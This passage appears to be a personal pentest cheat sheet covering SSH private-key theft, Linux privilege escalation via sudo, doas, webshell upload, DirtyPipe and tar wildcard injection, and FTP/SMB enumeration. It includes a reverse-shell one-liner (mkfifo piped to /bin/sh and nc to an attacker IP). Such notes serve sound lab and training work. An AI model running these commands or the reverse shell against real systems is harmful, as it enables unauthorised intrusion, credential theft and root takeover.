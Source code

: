 2. history
3. .ssh (Extract private key)
```
ssh -i pkey user@IP
/home/anita/.ssh/id_ecdsa (Different algo)
ssh -i id_ecdsa user@ip -p 2222
```
4. Go to user /home/user and check .history
5. If there is a web server, config.php etc may contain information
6. If bruteforce ssh does not work, the password is probably simple (like same username etc)
### PE scenarios
1. [Vulnerable sudo](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit)
2. history commands
3. sudo -l NOPASSWD
4. Privileged commands for specific applications
```
Example:
sudo borg list /opt/borgbackup
sudo borg extract /opt/borgbackup::home --stdout
```
5. Potential webserver 
```
Example:
apache24 in /usr/local/www
SUID binary
check /usr/local/etc/doas.conf
doas service apache24 onestart
netstat -na -f inet | grep LISTEN (sus port)
Writable dir
Upload webshell (csh, sh etc)
doas.conf specific group can act as root without password
checking www's group
```
6. Log in as another user with sudo priv
7. Possible cve suggestion by linpeas. Dirtypipe etc
8. Local running server with vulnerable service
```
For example: 
[jdwp shellifier](https://github.com/IOActive/jdwp-shellifier)
When waiting for event, run nc localhost 5000 to trigger
```
9. Tar job run by root (wildcard injection)
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc IP 443 >/tmp/f" > shell.sh
See [this](https://blog.gregscharf.com/2021/03/22/tar-in-cronjob-to-privilege-escalation/) and [this](https://systemweakness.com/privilege-escalation-using-wildcard-injection-tar-wildcard-injection-a57bc81df61c)
```
## FTP
### Anonymous log in
```
ftp 192.158.192.247 14020 username:anonymous, pw: test
```
## SMB
### Enumerate
```
smbclient -L IP/<sharename>
smbclient -L IP/<transfer> -c ‘recurse;ls’
```
## Tools/tricks